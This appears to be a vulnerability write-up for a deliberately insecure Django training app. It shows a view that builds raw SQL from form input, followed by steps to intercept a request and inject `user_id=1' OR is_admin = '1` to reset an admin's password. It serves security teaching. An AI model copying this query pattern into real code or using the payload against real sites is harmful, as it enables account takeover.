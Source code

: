 # A1: SQL Injection Concatentation

### Description

This vulnerability can be found at app/views/users/views.py
```python
@require_http_methods(["GET", "POST", "PUT", "DELETE"])
@user_is_authenticated
def user_view(request, user_id):
    if request.method == "POST":
        form = request.POST
        if not form:
            return HttpResponse("User " + str(user_id) + "POST")
        user_id_form = form['user_id']
        table_name = User.objects.model._meta.db_table
        # The order by is_admin='0' moves admin to the first in list
        # which allows sql injection
        users = User.objects.raw(
            "SELECT * FROM %s WHERE user_id='%s' ORDER BY is_admin='0'"
            % (table_name, user_id_form))
```

The code is directly using form data to execute SQL command. An attacker can change the form to have access to some queries and update their information.

### Attack

This is one way of doing a command injection:
1. Set up an intercepting proxy
2. Login and navigate to account settings page
3. Fill the form and submit
4. Intercept the POST request, which should look like:
    ```
    csrfmiddlewaretoken=GH8SDbVSwfmxi48PtglTK5i8j9QAIw1IqlWQ9NOLvhTcAe7gDGODqx59qqJvrKK4&user_id=1&email=&first_name=&last_name=&password=&confirm=
    ```
6. Execute a SQL injection as below and resend the request:
    ```
    csrfmiddlewaretoken=GH8SDbVSwfmxi48PtglTK5i8j9QAIw1IqlWQ9NOLvhTcAe7gDGODqx59qqJvrKK4&user_id=1' OR is_admin = '1&email=&first_name=&last_name=&password=123456&confirm=123456
    ```
7. This injection changes the a first found admin's password to 123456